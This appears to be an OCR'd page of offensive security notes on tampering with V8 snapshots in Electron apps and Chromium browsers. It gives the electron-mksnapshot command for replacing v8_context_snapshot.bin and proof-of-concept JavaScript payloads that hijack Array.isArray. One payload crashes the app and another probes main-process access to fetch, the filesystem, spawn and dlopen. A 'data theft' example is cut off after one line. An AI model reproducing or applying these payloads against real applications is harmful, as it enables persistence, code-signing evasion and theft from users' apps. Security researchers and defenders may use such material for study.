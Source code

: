```
- Effect: Reliable execution of attacker JavaScript in any isolate by clobbering a frequently used builtin (a “gadget”), enabling persistence and evasion of code-signing verification.
- Affected surface: Electron apps (even with fuses enabled) and Chromium-based browsers that load snapshots from user-writable locations.

Generating a malicious snapshot without building Chromium
- Use the prebuilt electron/mksnapshot to compile a payload JS into a snapshot and overwrite the application’s v8_context_snapshot.bin.

Example minimal payload (prove execution by forcing a crash)
```js
// Build snapshot from this payload
// npx -y electron-mksnapshot@37.2.6 "/abs/path/to/payload.js"
// Replace the application’s v8_context_snapshot.bin with the generated file

const orig = Array.isArray;

// Use Array.isArray as a ubiquitous gadget
Array.isArray = function () {
  // Executed whenever the app calls Array.isArray
  throw new Error("testing isArray gadget");
};
```
```
Isolate-aware payload routing (run different code in main vs. renderer)
- Main process detection: Node-only globals like process.pid, process.binding(), or process.dlopen are present in the main process isolate.
- Browser/renderer detection: Browser-only globals like alert are available when running in a document context.

Example gadget that probes main-process Node capabilities once
```js
const orig = Array.isArray;

Array.isArray = function() {
  // Defer until we land in main (has Node process)
  try {
    if (!process || !process.pid) {
      return orig(...arguments);
    }
  } catch (_) {
    return orig(...arguments);
  }

  // Run once
  if (!globalThis._invoke_lock) {
    globalThis._invoke_lock = true;
    console.log('[payload] isArray hook started ...');

    // Capability probing in main
    console.log(`[payload] unconstrained fetch available: [${fetch ? 'y' : 'n'}]);
    console.log(`[payload] unconstrained fs available: [${process.binding('fs') ? 'y' : 'n'}]);
    console.log(`[payload] unconstrained spawn available: [${process.binding('spawn_sync') ? 'y' : 'n'}]);
    console.log(`[payload] unconstrained dlopen available: [${process.dlopen ? 'y' : 'n'}]);
    process.exit(0);
  }
  return orig(...arguments);
};
```
```
Renderer/browser-context data theft PoC (e.g., Slack)
```js
const orig = Array.isArray;
```